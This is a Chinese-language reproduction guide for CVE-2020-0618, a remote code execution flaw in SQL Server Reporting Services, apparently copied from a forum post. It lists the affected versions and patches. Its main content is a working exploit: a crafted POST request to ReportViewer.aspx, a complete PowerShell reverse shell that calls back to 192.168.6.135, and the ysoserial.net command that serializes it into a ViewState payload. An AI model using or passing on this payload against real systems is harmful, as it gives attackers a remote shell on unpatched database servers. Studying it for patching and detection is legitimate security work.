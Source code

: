 # （CVE-2020-0618）SQL Server 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3136](https://www.zhihuifly.com/t/topic/3136)

# （CVE-2020-0618）SQL Server 远程代码执行漏洞

## 一、漏洞简介

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting Services) 发送特制请求进行触发。攻击成功可获得SQL Server服务的对应控制权限。

## 二、漏洞影响

| 产品 | 版本 | 修复补丁编号 |
| --- | --- | --- |
| SQL Server 2016 Service Pack 2(GDR) | 13.0.5026.0 - 13.0.5101.9 | KB4505220 |
| SQL Server 2016 Service Pack 2 CU11 | 13.0.5149.0 - 13.0.5598.27 | KB4527378 |
| SQL Server 2014 Service Pack 3 (GDR) | 12.0.6024.0 - 12.0.6108.1 | KB4505218 |
| Server 2014 Service Pack 2 CU4 | 12.0.6205.1 - 12.0.6329.1 | KB4500181 |
| SQL Server 2012 Service Pack 4 (QFE) | 11.0.7001.0 - 11.0.7462.6 | KB4057116 |

## 三、复现过程

首先登陆 ReportServer/pages/ReportViewer.aspx

```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X `NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=` 
```

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

```
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes) `.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c “powershell.exe -encodedCommand $encodedCommand” -o base64 | clip` 
```

> 编译好的ysoserial.net下载地址：https://github.com/ianxtianxt/ysoserial.net/
> 
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![image](img/a75a74c9146e16953f568f023182acde.png)

## 参考链接

> https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/